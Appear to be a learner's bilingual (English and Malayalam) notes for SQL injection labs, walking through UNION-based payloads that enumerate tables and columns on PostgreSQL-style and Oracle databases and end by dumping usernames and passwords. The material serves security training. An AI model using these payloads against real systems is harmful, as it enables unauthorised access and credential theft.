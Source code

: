     lab-4.b(Theory)
#### Listing the contents of the database:
-->Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.
-->We can query `information_schema.tables` to list the tables in the database:                                 -->SELECT+*+FROM+information_schema.tables
-->You can then query `information_schema.columns` to list the columns in individual tables:
       -->SELECT * FROM information_schema.columns WHERE table_name = 'Users'
	   
    Lab-4.b(practical-Listing the database contents on non oracle databeses):
-->first ethra column und enn kandupidikanam:
      -->'+ORDER+BY+2--                      (randenam udn)
-->second which column contain text data:
       -->'+UNION+SELECT+'abc','def'--                (2 ilum aakum)
-->Database ile contents dumb chyunathin mumb ath eth DB aanen urapp varuthanam ennale baki queries athinanusarich chyan patoo.for eg:
    -->'+UNION+SELECT+version()s,NULL--          (so ivide postgrsql aan)
-->Use the following payload to retrieve the list of tables in the database:   
    -->'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
	  ivide tables kandethi athil ninum namuk venda table eduth athile column kandethunu.ee table_name engane kiti enal google->information_schema.tables postgresql column enn adich noki defualt aaya tables enthanen nokanam ok.
-->Find the name of the table containing user credentials.
-->Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
>'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--   
-->Find the names of the columns containing usernames and passwords.
-->Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    -->'+UNION+SELECT+username_abcdef,password_abcdef+FROM+users_abcdef--
ivide ninum admin,password kitum

--------------------------------------------------------------
#### listing the contents on oracle database:
-->On Oracle, you can obtain the same information with slightly different queries.
-->You can list tables by querying all_tables:
       -->SELECT * FROM all_tables
-->And you can list columns by querying all_tab_columns:
     -->SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
	 
	   lab-4.b(practica-Listing the contents on database oracle):
-->first catagory=parameteril '  itt nokuka apol internal server error enno mato kanam apo manasilakuka sql injection vulnerable aanen ok.
-->ini ethra column und enn nokanam:
     -->'+ORDER+BY+2--                         (randenam und)
-->rand column intem type nokanam:
       -->'+UNION+SELECT+'a','a'+FROM+DUAL--     (randilum text aakum)
-->ini database ethan enn nokanam.so mumb chythapole version nokanam.
-->ini output the list of tables in the database:
          so google il poi oracle column names nokuka.athil kanuna name edukuka(ie table_name).athupole cheatsheetil nokiya kanam all_tables enn kodukanam.
         -->'+UNION+SELECT+table_name,NULL+FROM+all_tables--
		    ipol namuk table name kandethi.ini column name kandethanam.namuk vendath users ennath varuna table name aan ok.
-->ini output the column names of the users table:
  -->google oracle column names
>'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WALIWF'--(cheatsheet il ninum ith kanan patum)
  -->ivide namuk rand column kitum
-->ini output the list of usernames and passwords:
>'+UNION+SELECT+PASSWORD_XXGRFT,USERNAME_SNIABH+FROM+USERS_WALIWF--
   -->ivide namuk admin,password kitum
   